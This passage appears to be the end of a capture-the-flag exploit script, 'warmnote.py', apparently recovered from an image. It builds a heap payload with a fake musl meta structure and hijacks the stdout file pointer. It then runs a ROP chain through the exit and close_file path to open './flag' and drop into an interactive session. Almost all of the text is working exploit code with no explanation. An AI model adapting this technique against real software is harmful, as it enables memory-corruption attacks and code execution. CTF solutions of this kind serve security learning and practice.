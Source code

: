 ```python
    payload = './flag'.ljust(0x30,'\x00')
    payload += '\x00'*0x30 + p64(rop_addr) + p64(ret) + p64(0)+p64(magic_gadget)
    payload = payload.ljust(0x100-0x20,'\x00')
    payload += rop.chain()
    payload = payload.ljust(0x1000-0x20,'\x00') 
    payload += fake_meta

    add(0x2000 , data = payload + '\n')

    lg('fake_stdout_used',fake_stdout_used)
    lg('__stdout_used',__stdout_used)
    delete(0)
    dbg()

    # exit -> __stdio_exit_needed -> close_file -> gadgets -> ropchain

    cmd(5)
    # dbg()
    
    p.interactive()

attack()

'''
@File    :   warmnote.py
@Time    :   2022/08/23 10:53:22
@Author  :   Niyah 
'''
```

